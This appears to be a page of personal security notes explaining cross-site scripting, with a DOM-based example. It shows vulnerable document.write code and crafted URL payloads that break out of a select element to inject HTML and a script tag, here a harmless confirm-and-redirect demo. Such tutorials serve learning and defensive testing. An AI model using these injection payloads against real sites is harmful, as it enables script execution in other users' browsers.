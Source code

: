 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Cross-Site Scripting

Also known as XSS scripting, it allows the execution of malicious code of JavaScript or any client-side language. We can find different types of XSS scripting:

## <mark style="color:blue;">DOM-based</mark>

The vulnerability is in the client-side code, where the browser’s Document Object Model (DOM), the one handled by HTML, is manipulated to execute untrusted scripts.

We can find a typical example of this vulnerability as follows:

* The URL shows changes in a parameter

<pre class="language-html" data-title="Example Case" data-overflow="wrap" data-line-numbers><code class="lang-html">&#x3C;!-- We select language in a slider and is reflected on url -->
http://url/?language=en

&#x3C;!-- Check html of the page for script tags and document.write() functions-->
...
&#x3C;select name="default">
<strong>  &#x3C;script>
</strong><strong>  ...
</strong>    document.write("&#x3C;option value='"+lang+"'>"+decodeURI(lang) + "&#x3C;/option>");
  ...
  &#x3C;/script>
&#x3C;/select>
...

&#x3C;!-- Use '> to close the "value" parameter and then close tags -->
http://url/?default='>&#x3C;/option>&#x3C;/select>   
&#x3C;!-- We will see all options of the slider are now displayed on screen -->

<strong>&#x3C;!-- Then we can create any tag to insert HMTL code-->
</strong>http://url/?default='>&#x3C;/option>&#x3C;/select>&#x3C;h1>HACKED&#x3C;/h1>

&#x3C;!-- We can even abuse this to inject JS code -->
http://url/?default='>&#x3C;/option>&#x3C;/select>&#x3C;script>if(window.confirm('HACKED\nTRY TO CALL FOR HELP?')){window.open('https://www.youtube.com/watch?v=dQw4w9WgXcQ');};&#x3C;/script>
</code></pre>
